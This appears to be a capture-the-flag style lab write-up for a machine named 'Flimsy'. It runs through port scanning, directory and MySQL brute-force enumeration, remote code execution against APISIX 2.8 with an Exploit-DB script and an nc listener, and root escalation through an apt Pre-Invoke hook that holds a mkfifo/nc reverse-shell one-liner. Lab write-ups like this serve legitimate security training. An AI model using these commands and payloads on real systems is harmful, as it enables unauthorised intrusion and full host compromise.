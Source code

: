 # Flimsy
## Information Gathering
#### Ports/Services
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp      http       nginx 1.18.0 (Ubuntu)
3306/tcp    mysql      MySQL (unauthorized)
8080/tcp closed http-proxy


## Enumeration
### Nmap scan
```bash
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp    open   http       nginx 1.18.0 (Ubuntu)
|_http-title: Upright
|_http-server-header: nginx/1.18.0 (Ubuntu)
3306/tcp  open   mysql      MySQL (unauthorized)
8080/tcp  closed http-proxy
43500/tcp open   http       OpenResty web app server
|_http-title: Site doesnt have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
```

### 22/tcp OpenSSH 8.2p1


### 80/tcp nginx 1.18.0
- Ran Gobuster
```bash
gobuster dir -u http://192.168.122.220/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt,bak,sh -o gob/tcp80_root.gob

/img                  (Status: 301) [Size: 178] [--> http://192.168.122.220/img/]
/index.html           (Status: 200) [Size: 50895]                                
/css                  (Status: 301) [Size: 178] [--> http://192.168.122.220/css/]
/js                   (Status: 301) [Size: 178] [--> http://192.168.122.220/js/] 
/slick                (Status: 301) [Size: 178] [--> http://192.168.122.220/slick/]
```

`/slick`
***
- Get 403 when attempting to connect
- Gobuster `/slick`
```bash
gobuster dir -u http://192.168.122.220/slick/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt,bak,sh,lua -o gob/tcp80_slick.gob

/fonts                (Status: 301) [Size: 178] [--> http://192.168.122.220/slick/fonts/]
/LICENSE              (Status: 200) [Size: 1071]
```

### 3306/tcp 
- Ran nmap scap against 3306
```bash
sudo nmap -p3306 --script=mysql-* 192.168.122.220 -oN nmap/tcp3306_mysql.nmap

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-enum: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
|_mysql-empty-password: Host '192.168.49.122' is not allowed to connect to this MySQL server
| mysql-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 50009 guesses in 146 seconds, average tps: 335.5

```

### 43500/tcp
- According to full nmap scan - `OpenResty web app server`
- Looking at HTTP HEADER 
```bash
curl -I "http://192.168.122.220:43500/"

HTTP/1.1 404 Not Found
Date: Wed, 04 Jan 2023 01:58:05 GMT
Content-Type: text/plain; charset=utf-8
Connection: keep-alive
Server: APISIX/2.8
```

- Exploits for APISIX/2.8 
	- [RCE](https://www.exploit-db.com/exploits/50829) - TRUE POSITIVE
- Using exploit
```bash
./apisix_rce.py http://192.168.122.220:43500/ 192.168.49.122 53
```
- Catches a reverse shell
```bash
nc -lnvp 53
listening on [any] 53 ...
connect to [192.168.49.122] from (UNKNOWN) [192.168.122.220] 37688
id
uid=65534(franklin) gid=65534(nogroup) groups=65534(nogroup)
```

## Exploitation
- Using [this](https://www.exploit-db.com/exploits/50829) exploit, we can exploit a remote code execution vulnerability and catch a reverse shell
```bash
./apisix_rce.py http://192.168.122.220:43500/ 192.168.49.122 53
```
- Catches a reverse shell
```bash
nc -lnvp 53
listening on [any] 53 ...
connect to [192.168.49.122] from (UNKNOWN) [192.168.122.220] 37688
id
uid=65534(franklin) gid=65534(nogroup) groups=65534(nogroup)
```


## Privilege Escalation
### Enumeration
- Upon foothold, we drop right into `/root`
- Running linpeas.sh on the victim we get two interesting cronjobs running at all times
```bash
* * * * * root apt-get update
* * * * * root /root/run.sh
```
- At first I thought I had to use the exploit that got me foothold to write to `/root/run.sh`. 
- There is a great privilege escalation via `apt-get update` from this [article](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)
	- We do have write ability at `/etc/apt/apt.conf.d`
	- Writing a  payload to `pwn` - `echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.250 1234 >/tmp/f"};' > pwn`
	- After a few moments I caught a reverse shell as root